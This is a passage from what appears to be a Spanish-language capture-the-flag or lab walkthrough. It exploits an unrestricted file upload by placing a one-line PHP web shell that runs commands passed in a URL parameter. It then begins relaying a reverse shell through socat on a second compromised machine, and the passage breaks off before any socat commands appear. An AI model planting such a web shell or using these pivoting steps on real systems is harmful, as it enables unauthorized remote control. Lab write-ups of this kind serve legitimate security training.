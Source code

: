 ![](attachment/d33c827f4634b43bcf4eb8080d57d577.png)
_____
nos reporta un único puerto abierto.

y es una pagina web que nos permite cargar un archivo, por lo que cargamos un archivo .php con el siguiente codigo.

```php
<?php
system($_GET['cmd']);
?>
```

esto nos permitirá ejecutar comando de forma remota. 
______
![](attachment/3d0b2fc3e7637fe1e5b6d277e4242ebe.png)
______
por lo que ahora nos enviamos una reverse shell para ganar acceso a la maquina.

pero antes debemos configurar con socat para que nos pueda llegar esa reverse shell desde el segmento de red 30.30.30.0/24

comenzamos configurando el socat en la segunda maquina que completamos, se configura para que todo el trafico que se genere por un puerto sea redirigido a otro.
______